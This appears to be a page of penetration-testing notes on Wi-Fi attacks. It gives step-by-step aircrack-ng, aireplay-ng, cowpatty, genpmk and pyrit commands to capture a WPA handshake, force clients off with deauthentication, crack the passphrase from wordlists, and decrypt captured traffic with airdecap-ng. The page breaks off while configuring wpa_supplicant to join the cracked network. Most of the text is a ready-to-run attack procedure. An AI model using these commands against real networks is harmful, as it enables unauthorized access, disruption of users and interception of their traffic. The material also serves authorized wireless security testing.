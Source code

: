 ## Cracking WPA-PSK weak passphrase
* `airodump-ng -bssid <AP BSSID> -channel <AP channel>
-write WPACrackingDemo mon0`
* Wait or force client to reconnect:
 * `aireplay-ng --deauth 1 -a <AP BSSID> mon0`
* As soon as WPA handshake is captured, it will show on the
top right corner, followed by the AP's BSSID
* Stop airodump-ng
* Now we'll use dictionaries. These comes in all flavors,
Backtrack/Kali ships with some, but it's best to
find your own.
* `aircrack-ng WPACrackingDemo-01.cap -w
/pentest/passwords/wordlists/darkc0de.lst`
* If the key is in the dictionary, aircrack-ng will show the
key and then exit
* Cowpatty is another good WPA/WPA2 cracking tool

## Speeding up WPA/WPA2 PSK cracking
* Pre-calculate the PMK for a given SSID and wordlist
* `genpmk -f <path to dictionary> -d <output file> -s
"<SSID>"`
* `cowpatty -d <file created by genpmk> -s <SSID> -r <cap
file>` to crack. This takes mere seconds.
* To do the same with aircrack-ng:
 * `airolib-ng <output file> --import cowpatty <file created
 by genpmk>`
 * `aircrack-ng -r <file created by airolib-ng> <cap file>`
* There's other tools available too, like Pyrit:
 * `pyrit -r <cap file> -i <file created by genpmk>
 attack_cowpatty`

## Decrypting WEP and WPA packets
* `airdecap-ng -w <WEP key> <cap file>`
* Decrypted files are stored in <cap file name>-dec.cap
* `tshark -r <decrypted cap file> -c 10` to view first 10
packets in the terminal
* For WPA:
 * `airdecap-ng -p <PSK> <cap file> -e "<SSID>"`

## Connecting to WEP and WPA networks
### WEP
* `iwconfig wlan0 essid <SSID> key <WEP key>`
* `iwconfig wlan0` to check

### WPA
* iwconfig doesn't support WPA/WPA2
* We'll use `WPA_supplicant`
* Create `wpa-supp.conf` file:
